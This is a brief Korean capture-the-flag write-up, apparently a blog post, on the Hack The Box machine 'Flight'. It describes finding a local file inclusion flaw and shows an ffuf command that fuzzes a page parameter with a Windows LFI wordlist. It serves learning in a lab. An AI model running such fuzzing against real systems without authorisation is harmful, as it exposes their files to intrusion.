 <img src='assets/post/2025/Playground/Hack The Box/Flight/1.png' width=1200 alt=''>

---

# VULNEABILITY ASSESSMENT
## Testing LFI (Local File Inclusion)

- 포트스캔 과정에서, 대상 호스트가 Windows 운영체제를 사용하고 있음을 확인했다.  
- Windows OS에 대한 LFI 공격 수행결과, LFI 공격이 가능함을 확인하였으며 유효한 경로를 발견하였다.  

```zsh
└─# ffuf -u 'http://school.flight.htb/index.php?view=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt -fs 1170

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://school.flight.htb/index.php?view=FUZZ
```